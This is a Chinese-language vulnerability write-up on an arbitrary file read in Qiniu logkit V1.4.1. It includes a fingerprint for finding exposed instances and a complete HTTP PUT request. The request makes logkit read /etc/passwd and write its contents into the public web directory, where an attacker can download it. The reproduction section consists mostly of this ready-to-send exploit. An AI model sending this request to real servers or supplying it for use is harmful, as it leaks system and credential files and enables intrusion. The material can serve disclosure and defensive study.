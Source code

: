 # 

# 七牛云 logkit log_path 任意文件读取漏洞

## 漏洞描述

七牛云 logkit log_path 参数可自定义读取服务器文件，配合读取的文件写入Web目录将会使攻击者读取到服务器任意文件，造成服务器敏感信息泄漏

## 漏洞影响

```
七牛云 logkit V1.4.1
```

## 网络测绘

```
title="七牛Logkit配置文件助手"
```

## 漏洞复现

主页面

![image-20220628115711831](./images/202206281157893.png)

发送请求包配置读取文件

```
PUT /logkit/configs/passwdread HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 356
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

{
  "name": "passwdread",
  "batch_interval": 1,
  "collect_interval": 1,
  "reader": {
    "mode": "file",
    "log_path": "/etc/passwd",
    "read_from": "oldest",
    "datasource_tag": "datasource",
    "encoding": "UTF-8"
  },
  "parser": {
    "type": "raw",
    "name": "parser",
    "timestamp": "true"
  },
  "transforms": [],
  "senders": [
    {
      "sender_type": "file",
      "file_send_path": "/app/public/passwd.log"
    }
  ]
}
```

![image-20220628115730198](./images/202206281157267.png)

![image-20220628115736774](./images/202206281157819.png)

请求读取的文件 /app/public 目录为Docker默认Web路径，写入可读取目标文件

![image-20220628115747872](./images/202206281157946.png)

